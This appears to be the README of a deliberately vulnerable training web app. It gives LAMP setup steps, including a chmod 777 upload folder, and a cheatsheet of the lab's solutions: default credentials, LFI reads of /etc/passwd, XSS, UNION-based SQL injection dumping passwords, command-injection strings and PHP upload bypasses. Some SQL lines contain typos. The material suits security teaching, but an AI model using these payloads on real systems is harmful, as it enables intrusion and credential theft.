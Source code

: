 # Installation
Basic LAMP...

```
sudo apt install apache2 php libapache2-mod-php mysql-server php-mysql
```
move folder to /var/www/html

script.sql for database

```
sudo mkdir /var/www/html/upload/
sudo chmod -R 777 /var/www/html/upload => right in folder
```


# Cheatsheet
<detail>
<summary> Click for detail</summary>

## Broken authentication
Level 1
admin:password

- weak password
- default password
- GET parameters


Level 2

alice:123456789

- error message


## Broken Access Control
?sessionid=120983


## LFI

?topic=../../../../../../etc/passwd
?topic=php://filter/convert.base64-encode/resource=secret.php

## XSS
Level 1
<script>alert('XSS')</script>

Level 2
<script>alert('XSS')</script>

Modifier le contenu du premier message : 
<script>document.getElementsByTagName("p").item(1).innerHTML="Modifié par un hacker"</script>

Level 3 
Uniquement pseudo

Level 4
<img src="x" onerror="alert('XSS')"/>


## SQLi
Level 1
' or 1=1; -- 
a

admin' and 1=1; -- 
Level 2
uniquement password 
' or 1=1; --


Level 3
' union select null; -- 
' union select 'a','b','c','d'; -- 
' UNION select null, table_name,null,null from information_schema.tables; -- 
' UNION select null, column_name,null,null from information_schema.comluns where table_name='sql1'; -- 
' union select null,username,password,null from table='sql1'; --


## Command injection
Level 1
google.fr; ls


Level 2
google.fr" && ls #

## PHP file upload
try to upload .php3, .php4, .php5, .phtml...

5 secrets : 


1 - fuzzing 
secret.php

robots.txt => /96bd94aa09f61018abeaf0cd7b7c6387.php

code source => 33a2838ab91f7f01a24da38cb55cae10.php

?topic=php://filter/convert.base64-encode/resource=secret.php

Extract .git 
git restore .

</detail>